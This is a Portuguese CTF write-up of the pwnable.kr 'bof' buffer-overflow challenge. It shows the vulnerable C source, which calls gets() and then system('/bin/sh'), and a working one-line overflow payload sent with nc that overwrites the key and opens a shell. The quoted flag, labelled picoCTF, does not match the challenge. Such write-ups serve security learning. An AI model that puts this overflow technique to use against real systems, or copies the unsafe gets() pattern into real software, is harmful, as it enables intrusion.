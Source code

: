 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

```c++
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

permissão de execução
```
chmod +x bof
```
rodar o arquivo
```
./bof
```

usando o `gdb bof`

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

(gdb) disas <função_analisada>

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

![image](https://github.com/user-attachments/assets/1926e179-6b1c-4d30-a5fc-a9723f19c80e)

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

```(python -c "print '\x41'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

cat flag

> Assim, obtemos a flag `picoCTF{daddy, I just pwned a buFFer :)}`  

